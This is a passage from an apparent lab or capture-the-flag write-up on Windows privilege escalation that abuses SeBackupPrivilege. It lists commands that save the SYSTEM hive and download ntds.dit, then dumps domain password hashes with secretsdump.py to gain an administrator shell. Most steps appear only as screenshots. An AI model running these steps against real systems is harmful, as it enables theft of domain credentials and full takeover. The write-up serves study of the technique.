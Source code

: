 1.  Creating dsh file to copy C: drive:

![](https://i.imgur.com/RwYPl7o.png)

  

2.  Uploaded the dsh file and ran it to copy the disk:

  ![](https://i.imgur.com/pVOfMuo.png)



3.  Copied C drive into Z drive:

  ![](https://i.imgur.com/4DbBJv5.png)

 

Now using the commands below, I downloaded ntds.dit and relevant files to local machine:


```bash
reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system
```

 Using secretsdump.py, I dumped all the password hashes:

![](https://i.imgur.com/RTvLaqu.png)


![](https://i.imgur.com/uvW12ys.png)



Now I have shell as administrator:

![](https://i.imgur.com/W36PuDv.png)

## Reference
- https://www.thehacker.recipes/a-d/movement/dacl/forcechangepassword
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges
- https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/